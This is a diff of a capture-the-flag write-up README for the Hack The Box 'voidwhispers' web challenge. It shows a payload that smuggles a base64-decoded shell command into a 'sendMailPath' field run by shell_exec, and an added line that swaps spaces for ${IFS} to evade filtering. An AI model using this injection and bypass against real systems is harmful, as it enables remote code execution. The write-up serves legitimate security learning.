

Before and after one commit to hollohan/HTB-Challenges, a Markdown page: web_voidwhispers/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/web_voidwhispers/README.md
+++ b/web_voidwhispers/README.md
@@ -37,6 +37,8 @@ data = {
     'sendMailPath': f'/usr/sbin/sendmail & echo {cmd}|base64 -d|sh',
     'mailProgram': 'sendmail',
 }
+
+data['sendMailPath'] = data['sendMailPath'].replace(' ', '${IFS}')
 ```
 As a result, the shell command that gets executed via ```shell_exec``` will being:
 ```
````
